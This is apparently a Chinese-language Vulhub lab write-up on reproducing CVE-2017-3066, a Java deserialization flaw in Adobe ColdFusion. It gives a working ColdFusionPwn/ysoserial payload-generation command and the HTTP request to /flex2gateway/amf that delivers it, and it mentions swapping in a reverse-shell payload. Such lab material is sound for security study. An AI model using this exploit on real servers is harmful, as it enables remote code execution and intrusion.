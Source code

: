 # Adobe ColdFusion 反序列化漏洞 CVE-2017-3066

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/awesome_poc' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf。

将POC作为数据包body：Burpsuite右键→Paste From File→选择poc.ser

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

**至此，复现不成功，上传poc.ser之后POST，/tmp/awesome_poc文件没有创建完成**

**补充：与burpsuite版本有关，老版本的burpsuite可以复现成功**。

**Burpsuite+Postman联动复现也不成功。操作步骤可参考：https://mp.weixin.qq.com/s/-6U2dOJs930kMYv7z-NUgg**

------

![](images/202202212052978.png)

进入容器中，发现`/tmp/success`已成功创建：

![](images/202202212053950.png)

将POC改成[反弹命令](https://www.bugku.net/runtime-exec-payloads/)，成功拿到shell：

![](images/202202212053074.png)
